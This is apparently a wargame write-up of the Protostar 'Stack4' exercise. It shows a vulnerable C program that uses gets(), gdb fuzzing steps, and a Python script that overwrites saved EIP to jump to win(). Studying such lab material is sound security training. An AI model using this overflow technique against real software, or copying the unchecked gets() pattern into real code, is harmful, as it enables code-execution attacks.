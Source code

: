 # [cd ../](../index.md)
# Stack4
> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

> Hints
- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Fuzzing
- modify the previous exploit we made by make a random padding
  ```
  AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
  ```
- make a **file** from *output* and use this as **input** str in `gdb`  
```
python stack4.py > stack4_exp
gdb stack4
r < stack4_exp
info registers
```
- We got a segfault
![segfault](segfault.png)  
- We can see it segfaulted at `ebp` = `0x53535353` this is `S` and `eip` = `0x54545454` and this is character `T`
- Run `objdump -t stack4` and find win `objdump -t stack4 | grep win`
  - `win` is at `080483f4`
- We have to control these so change the code like:  

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR'
ebp = 'AAAA' # ebp - junk
eip = struct.pack('I', 0x080483f4) # eip (win function needs to be here)
print padding+ebp+eip
```

- We have to create a file from the code output now then run in gdb  
`python stack4_2.py > stack4_2_exp`  
![pwned](pwned.png)

# OH YEAH WE GOT IT

